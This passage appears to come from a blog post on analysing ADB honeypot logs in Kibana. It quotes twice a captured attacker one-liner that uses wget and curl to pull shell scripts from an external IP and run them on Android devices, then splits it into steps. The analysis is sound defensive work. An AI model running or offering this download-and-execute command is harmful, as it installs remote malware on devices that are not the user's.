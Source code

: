 **Below** you will see that the attacker was using the command:

`cd /data/local/tmp/; busybox wget http://45.61.184.4/w.sh; sh w.sh; curl http://45.61.184.4/c.sh; sh c.sh`

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/adbhoney3.PNG)

**Bonus:**

You can use the fields selector on the left pane of the discover tab to show you only fields that you want to see. For example in the below screenshot I used the `input`, `Country`, and `geoip.ip` to filter out all of the information that I did not want to see.

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/adbhoney6.PNG)

---

### Analysis of Malicious Payload - Example

***Don't know what Linux commands you are seeing? Use [explainshell](https://explainshell.com/).***

One of the payloads I found on the honeypot was:<br>
`cd /data/local/tmp/; busybox wget http://45.61.184.4/w.sh; sh w.sh; curl http://45.61.184.4/c.sh;`<br>
Broken into steps we can see the order of events:<br>
1 . `cd /data/local/tmp/`<br>
2 . `busybox wget http://45.61.184.4/w.sh`<br>
3 . `sh w.sh`<br>
4 . `curl http://45.61.184.4/c.sh`<br>
